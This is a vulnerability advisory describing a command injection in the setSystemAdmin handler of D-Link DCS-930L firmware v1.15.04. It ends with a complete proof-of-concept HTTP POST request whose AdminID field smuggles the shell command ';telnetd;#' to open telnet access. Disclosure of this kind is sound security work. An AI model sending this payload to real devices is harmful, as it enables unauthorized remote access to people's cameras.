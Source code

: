 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  v1.15.04

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v1.15.04. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests.


---
### **Vulnerability Details**
![image-3](./img/20251031195144.png)
In the `setSystemAdmin` handler of the `alphapd` binary, the input is first checked in `CheckSystemVar`.

![image-4](./img/20251031195359.png)
![image-5](./img/20251031195531.png)
Then, the function further checks `AdminID`. However, `checkrangestring` only cleans up HTML whitespace characters in the input string and limits the input length to a minimum of 1 and a maximum of 12, without restricting the content.

![image-1](./img/1.png)
The `AdminID` value comes directly from attacker-controlled input. Because the input is not properly restricted, it is directly inserted into the shell command, which allows the attacker to construct an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```
![image-2](./img/2.png)
